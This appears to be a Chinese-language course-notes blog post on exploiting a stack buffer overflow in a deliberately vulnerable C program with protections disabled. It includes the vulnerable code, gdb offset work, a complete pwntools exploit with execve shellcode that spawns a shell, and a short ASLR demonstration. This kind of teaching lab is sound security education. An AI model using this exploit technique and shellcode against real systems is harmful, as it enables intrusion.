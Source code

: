 ```yaml
---
title: "安全编程语言设计笔记1"
categories: [Notes]
tags: [Security]
toc: true
classes: []
excerpt: "通过栈溢出执行Shellcode，ASLR初探"
---
```


#### 一些常识

![](/assets/images/posts/COMP737011_1/mmodel.png)

32 位的 Linux 下可执行文件加载到内存中是如上结构。其中 Code 存只读的数据，包括常量与汇编转化成的机器指令等。Data 存储可读可写的数据。Heap 用于动态分配的空间。Stack 就是栈空间，是从高地址向低地址扩展的。内核部分是所有进程共享的。



#### 利用栈溢出漏洞执行Shellcode

准备工作：关闭 ASLR。

```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

现在有这么一段带有漏洞的代码，目标是利用栈溢出这个漏洞获得 shell。

```c
#include <unistd.h>
#include <stdio.h>

int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
        write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    printf("%p",buf);
    return 0;
}

int main(int argc, char** argv){
    int flag = 0;
    while(flag == 0){
        write(STDOUT_FILENO, "Input your key:", 15);
        flag = validation();
    }
    printf("Start...\n");
}
```

使用以下指令编译它得到可执行文件

```shell
clang -fno-stack-protector -z execstack bug.c -o bug.elf
```

其中 `-fno-stack-protector` 选项关闭编译器的栈保护，`-z execstack `开启栈空间上的执行权限。

可以利用 gdb 把带有漏洞的代码段的汇编打印出来，观察得到 buf 对于 rbp 寄存器的偏移量为 50 字节。

![](/assets/images/posts/COMP737011_1/assemble1.png)

此时栈中的数据由高位到低位应该是这样的

![](/assets/images/posts/COMP737011_1/mmodel2.png)

其中 `ret address` 是程序在完成了本次函数调用后的下一条指令的地址，我们的目标就是利用栈溢出把 `ret address` 替换成我们准备的 shellcode 的起始地址，这样函数返回后就会打开一个 shell 了。简单地计算得到我们需要 88 个字节的 padding。shellcode 是一段机器码，我们想让它能执行 `/bin/sh` ，可以通过各种方法得到，可以把它放在 padding 中。

综上，payload 的构造就应该是 shellcode + 凑满88个字节的 padding 再加上 buf 的起始地址，总长度应该为 96 字节。

可以使用 gdb 查看 buf 的起始地址

![](/assets/images/posts/COMP737011_1/addr1.png)

rbp 的地址是 0x7fffffffdc40，那 buf 就是其减去 0x50 也就是 0x7fffffffdbf0。

如果直接利用这个地址构造的 payload，会得到段错误，原因在于使用 gdb 时会在栈上使用额外的空间，导致打印出的地址其实是比直接运行时的地址要低的。

可以通过以下命令打开 coredump，把发生段错误时的内存生成一个快照保存下来，其中的内存地址是准确的。

```shell
ulimit -c unlimited
sudo sysctl -w kernel.core_pattern=core
```

gdb 打开 core，通过查看 rsp 的地址推算 buf 的地址应该为 0x7fffffffdc90。

![](/assets/images/posts/COMP737011_1/addr2.png)

修改脚本后再运行，发现现在能成功打开 shell 了。

![](/assets/images/posts/COMP737011_1/success.png)

完整攻击脚本：

```python
from pwn import *

ret = 0x7fffffffdc90
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + ("A" * (88-len(shellcode))).encode('ascii') + p64(ret)

p = process("./bug.elf")
p.send(payload)
p.interactive()
```



#### 观察ASLR的效果

ASLR 通过随机化内存布局，使得地址变得难以预测，增加溢出攻击的难度。

编写一段简单的代码用于观察 ASLR 的效果。

```cpp
#include <cstdio>

void *getStack() 
{
    int ptr;
    printf("Stack pointer address: %p\n",&ptr);
    return __builtin_return_address(0);
}

void stuck()
{
    while(1) scanf("%*c");
}

int main(int argc,char** argv)
{
    printf("Return address: %p\n",getStack());
    stuck();
    return 0;
}
```

通过以下命令编译，其中 `pie` 是为了开启代码段与数据段的随机化（只在 ASLR 也被打开是才会生效）。

```shell
clang++ -fPIE -pie aslr.cpp -o aslr.elf
```

通过以下命令打开 ASLR。

```shell
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

运行 `./aslr.elf` 并通过 `ps -aux | grep aslr` 查看 pid，然后打开 `/proc/$pid/maps` 检查一下。

![](/assets/images/posts/COMP737011_1/aslr1.png)

多试几次可以发现程序每次的输出和 mmap 都不一样。
